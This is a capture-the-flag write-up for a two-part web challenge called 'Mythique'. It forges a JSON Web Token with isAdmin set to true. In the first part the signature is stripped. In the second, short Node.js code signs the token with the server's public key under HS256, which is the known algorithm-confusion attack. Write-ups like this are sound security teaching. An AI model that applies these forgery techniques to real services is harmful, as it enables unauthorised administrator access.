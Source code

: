 
  

#  Mythique 

The first step I made to get the flag was took the JWT and paste in jwt.io.
I understood it was ineluctable to set isAdmin at true and conserving the same data structure of the token.

### Mythique 1
In this exercises I took the token in my browser and paste it into https://dinochiesa.github.io/jwt/.
I changed isAdmin to true and past the one and second element in my browser.
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJleHAiOjE2NzExMTg2MjgsImRhdGEiOnsibmFtZSI6IlBhdGF0ZSBIYWJpbGUiLCJpc0FkbWluIjp0cnVlfSwiaWF0IjoxNjcxMTE1MDI4fQ.
FIRST.SECOND.~~THIRD~~
FIRST.SECOND.
```

Then go on the page https://mythique1.secu-web.blackfoot.dev/flag and the flag appear.

### Mythique 2
I understood at the beginning it was mandatory to recreate a token from the public key gave from the page.

After some search I find a similar CTF on google and the explication to solve this was to brain the server by signing a token with the public key in another algorithm. 
https://github.com/karma9874/CTF-Writeups/blob/master/Dark-PreCTF/Web-3.md
On the web page the algorithm was RS and my code is using HS algorithm.

```
js
const  jwt = require('jsonwebtoken')
let  fs = require('fs')
let  publicKey = fs.readFileSync('./serverkey.pub');
let  token = jwt.sign({"data": {"name":  "Nuage :)","isAdmin":  true},"iat":  1671114339}, publicKey, { algorithm:  'HS256', noTimestamp:  true });
console.log(token)
```


  
